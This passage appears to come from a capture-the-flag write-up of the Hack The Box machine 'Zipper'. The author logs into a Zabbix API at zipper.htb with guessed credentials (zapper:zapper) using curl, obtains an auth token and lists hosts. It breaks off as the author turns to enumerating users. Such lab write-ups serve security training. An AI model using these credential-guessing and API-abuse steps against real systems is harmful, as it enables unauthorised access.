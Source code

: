 This entity has a backup script. `zapper` sounds like a user of some sorts. If I attempt to login with `zapper:zapper`, I get a unique error message:

![](../../../.gitbook/assets/htb-zipper-image-4.png)

This means the the password is legitimately `zapper`, since it did not return an invalid password error. I took a look at the documentation for Zabbix , and found that there was an API:

{% embed url="https://www.zabbix.com/documentation/current/en/manual/api" %}

This was located at the `api_jsonrpc.php` file. 

### Zabbix API

Firstly, since GUI access was disabled, it is likely that I have to use the credentials I found to sign in.

This can be done using `curl`:

```
$ curl http://zipper.htb/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"user.login", "id":1, "params":{"user": "zapper", "password": "zapper"}}' 
{"jsonrpc":"2.0","result":"06240f1bd5926c26e2d5ef2e8ffe214e","id":1}
```

Using this token, I can perform some authenticated actions like listing hosts:

```
$ curl --request POST --url 'http://zipper.htb/zabbix/api_jsonrpc.php' --header 'Content-Type: application/json-rpc' --data '{"jsonrpc":"2.0","method":"host.get","params":{"output":["hostid"]},"auth":"06240f1bd5926c26e2d5ef2e8ffe214e","id":1}' 
{"jsonrpc":"2.0","result":[{"hostid":"10105"},{"hostid":"10106"}],"id":1}
```

Now that I have privileges over this, I took a look at the users present:
